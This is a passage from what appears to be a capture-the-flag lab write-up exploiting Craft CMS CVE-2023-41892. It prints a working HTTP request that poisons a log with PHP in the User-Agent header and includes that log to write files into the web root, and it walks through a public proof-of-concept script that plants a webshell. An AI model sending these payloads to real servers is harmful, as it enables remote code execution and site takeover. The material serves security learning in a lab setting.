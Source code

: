 After including the log, PHP will still crash on the request, not returning the results. Therefore, I’ll have PHP in the log create a webshell in the web root that can be used repeatedly.

#### Modify POC

Starting with the original POC, I’ll replace the `GuzzleHttp` class with `PhpManager`, using the `itemFile` to show what file to include. The log file location (which includes today’s date) is from the [CraftCMS documentation](https://craftcms.com/docs/4.x/logging.html). I’ll modify the `User-Agent` header to be some PHP to write a file in the web root.

```

POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: <?php `echo test > /var/www/html/craft/web/0xdf.txt`;?>
Content-Type: application/x-www-form-urlencoded
Content-Length: 258

action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/craft/storage/logs/web-2024-04-18.log"}]}}

```

On sending this twice (once to write the log and once to reference it), there’s a file in the web root:

```

oxdf@hacky$ curl http://surveillance.htb/0xdf.txt
test

```

Updating the `User-Agent` to write a PHP webshell instead of “test” is trivial.

### Running POC

Faelian has a really nice [POC for CVE-2203-41892](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py) that is held in a single Python script. It follows the same steps I did manually using ImageMagick.

In [lines 32-62](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py#L32-L62), it runs the POC to get `phpinfo` output, and gets the `tmp_dir` and `document_root` from it:

![image-20240418101456469](/img/image-20240418101456469.png)

In [lines 64-81](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py#L64-L81) it uploads the MSL file to `/tmp` by crashing `imagick` on `/etc/passwd`:

![image-20240418101544477](/img/image-20240418101544477.png)

The comment about uploading “shell.php” isn’t really accurate, as it’s really uploading the MSL file to make “shell.php”.

In [lines 84-93](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py#L84-L93) it uses `imagick` to to write (not so much move) the webshell:
